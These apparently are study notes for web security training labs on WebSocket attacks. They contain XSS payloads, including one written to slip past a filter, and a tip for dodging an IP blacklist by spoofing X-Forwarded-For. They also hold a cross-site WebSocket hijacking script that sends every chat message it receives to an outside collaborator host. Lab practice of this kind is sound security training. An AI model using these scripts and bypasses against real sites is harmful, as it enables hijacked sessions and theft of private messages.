 # Manipulating messages to exploit vulnerabilities
## This has an XSS vulnerability
- To exploit, interecpt the live chat message and change it to: `<img src=1 onerror='alert(1)'>`

# Cross-site web socket hijacking
## Occurs when only the session token is used in the handshake
## This is the exploit:
```html
<script>
    var ws = new WebSocket('wss://0a97007904d6e29880c2bccb00cd0079.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://qe8g9qt4z45jh7hrj2jrjzoyhpngb6zv.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

# Manipulating the WebSocket handshake to exploit vulnerabilities
- Again there is XSS, however this time if you send one it blacklists the IP 
    - You can use X-Forwarded-For to bypass this on the handshake
- Used repeater to reconnect with the header and used this payload: `<img src=1 oNeRrOr=alert`1`>`
